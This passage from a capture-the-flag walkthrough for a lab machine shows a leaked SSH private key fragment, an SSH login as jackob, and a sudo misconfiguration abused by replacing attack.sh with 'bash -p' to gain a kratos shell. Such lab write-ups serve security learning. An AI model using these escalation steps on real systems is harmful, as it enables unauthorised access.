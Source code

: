 zTtL5/FYdo2LGikAAAANamFja29iQGF0dGFjawECAwQFBg==
-----END OPENSSH PRIVATE KEY-----

Nice, we have the key for the user jackob. Logging in via SSH: 

┌──(kali㉿kali)-[~/ctf/attack]
└─$ ssh -i jackob_id_rsa jackob@192.168.56.254
Linux attack 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jackob@attack:~$

checking sudo:
jackob@attack:~$ sudo -l
Matching Defaults entries for jackob on attack:
    !env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jackob may run the following commands on attack:
    (kratos) NOPASSWD: /home/jackob/attack.sh

Running the attack.sh file:
jackob@attack:~$ sudo -u kratos /home/jackob/attack.sh
[+] LAUNCHING ATTACK
[+] NEXT PHASE
[+] FINAL PHASE
[+] DONE


I didn't have write permissions of attack.sh, so I deleted it and created a new
script:
jackob@attack:~$ rm attack.sh 
rm: remove write-protected regular file 'attack.sh'? y
jackob@attack:~$ ls -a
.  ..  .bash_logout  .bashrc  flag.sh  .local  note.txt  .profile  .ssh  user.txt
jackob@attack:~$ echo "bash -p" >> attack.sh
jackob@attack:~$ sudo -u kratos /home/jackob/attack.sh
sudo: /home/jackob/attack.sh: command not found
jackob@attack:~$ ls -a
.   attack.sh     .bashrc  .local    .profile  user.txt
..  .bash_logout  flag.sh  note.txt  .ssh
jackob@attack:~$ chmod +x attack.sh 
jackob@attack:~$ sudo -u kratos /home/jackob/attack.sh
kratos@attack:~$ 

Checking sudo command privileges for the user kratos:
kratos@attack:~$ sudo -l
Matching Defaults entries for kratos on attack:
    !env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
